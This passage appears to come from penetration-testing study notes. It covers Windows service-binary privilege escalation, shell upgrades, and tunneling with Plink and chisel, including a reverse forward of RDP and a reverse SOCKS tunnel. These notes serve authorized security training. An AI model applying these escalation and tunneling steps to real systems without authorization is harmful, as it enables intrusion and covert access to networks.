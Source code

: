 		- Determine if there are any services were installed/are running in a directory other than `C:\Windows\System32`
		- Once identified, enumerate the permissions on those service binaries
		- Determine if there are any service binaries with permissions share by a user that you have access to; if so, replace the service binary with a custom binary (being sure to save the original binary in a location you can restore it from if necessary)
		- Try restarting the service. If you don't have permissions to do this, check the *StartMode* of the service binary; if it is *Auto* and your user has permission to restart the machine (`whoami /priv`), then restart the machine to trigger execution of the custom binary
		- This process can be automated using [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
		

#### Service DLL Hijacking

#### Unquoted Service Paths

### Abusing Other Windows Components

## Port Redirection and SSH Tunneling

If you have a shell but need a tty (in order to do ssh), try `python3 -c 'import pty; pty.spawn("/bin/sh")'`

> Lowering the tcp_read_time_out and tcp_connect_time_out values in the Proxychains configuration file will force Proxychains to time-out on non-responsive connections more quickly.

Start an ssh server on kali box:
`sudo systemctl start ssh`

Plink.exe usage:
`C:\Windows\Temp\plink.exe -ssh -l <USERNAME> -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 <SSH_SERVER_IP>`

## Tunneling Through Deep Packet Inspection

### chisel

Install:
`sudo apt install chisel`

Simple usage (client):
`chisel client <SERVER_IP>:<PORT> <local-host>:<local-port>:<remote-host>:<remote-port>/<protocol>`

If chisel server has `--reverse` enabled, then prepending the "remote" with `R:` to create a reverse tunnel, ie it makes the server open a listennig port which fowards traffic to the port to the client.

> Example: `chisel 192.168.11.84:8080 R:socks`
> This connects to the server at 192.168.11.84:8080, and tells it to open a listening socks socket (default is port 1080).

## The Metasploit Framework
